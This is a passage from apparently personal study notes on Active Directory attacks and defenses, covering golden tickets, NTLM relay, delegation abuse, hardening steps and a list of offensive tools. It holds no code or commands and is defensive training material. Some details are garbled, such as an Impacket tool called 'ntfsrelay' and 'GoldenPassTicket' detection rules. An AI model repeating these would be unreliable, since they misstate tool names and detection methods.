- Works for any user including Administrator

**Detection:**
- Event ID 4768 with unusual encryption type
- TGT valid for extended periods
- GoldenPassTicket advanced detection rules

---

### Q8: What is NTLM Relay attack?

**Answer:** NTLM Relay attacks capture authentication credentials and relay them to a different service/machine. The attacker positions themselves between the client and server to intercept and relay credentials.

**Common Targets:**
- LDAP (Domain Controller)
- SMB (File shares, Remote execution)
- HTTP (Web applications)

**Mitigation:**
- Enable SMB signing
- Disable NTLM authentication
- Enable LDAP channel binding

---

### Q9: What is the difference between constrained and unconstrained delegation?

**Answer:**

| Feature | Constrained Delegation | Unconstrained Delegation |
|---------|----------------------|------------------------|
| **Scope** | Specific services only | Any service |
| **Attack** | Impersonate user to delegated service | Capture TGT of delegated user |
| **Detection** | Event ID 4769 for delegation | Event ID 4624 with LogonType 9 |

---

### Q10: How do you secure Active Directory against these attacks?

**Answer:**

**Password Policies:**
- Use 100+ character passwords for service accounts
- Use Group Managed Service Accounts (GMSA)
- Regular password rotation

**Kerberos Hardening:**
- Enable AES encryption only
- Disable RC4 encryption types
- Use Protected Users security group

**Monitoring:**
- Deploy honeypot accounts
- Monitor for unusual ticket requests
- Alert on sensitive group changes

**Patching:**
- Apply KB2962486 for GPP
- Regular AD security patches
- Keep domain controllers updated

---

## 15. Additional Resources

### Tools

| Tool | Purpose |
|------|---------|
| **Rubeus** | Kerberos attack tool (Kerberoasting, AS-REP roasting) |
| **Impacket** | Python tools for AD attacks (secretsdump, ntfsrelay) |
| **BloodHound** | AD attack path analysis |
| **Mimikatz** | Credential dumping and golden ticket creation |
| **Get-GPPPassword** | PowerSploit module for GPP credential extraction |
| **CrackMapExec** | AD exploitation and credential spraying |
| **Hashcat** | Password cracking |
| **John the Ripper** | Password cracking |

### References

- [MITRE ATT&CK - T1558: Steal or Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/)
- [Harmj0y's Kerberoasting Blog](https://www.harmj0y.com/blog/)
- [SpecterOps AD Security](https://specterops.io/)
- [Microsoft AD Security](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices)
- [Kerberos Protocol Extension (RFC 4120)](https://datatracker.ietf.org/doc/html/rfc4120)

### Books

- "Active Directory Attack and Defense" - Various authors
- "The Red Team Handbook" - SOC/Blue Team
- "Windows Internals" - Mark Russinovich

### Communities

- r/activedirectory (Reddit)
- r/kerberos (Reddit)
- BloodHound Slack
- Purple Slack

---


*Module 6/15 - Windows Attacks & Defense*
*Built with research + HTB Academy materials*
*For learning and SOC career preparation*
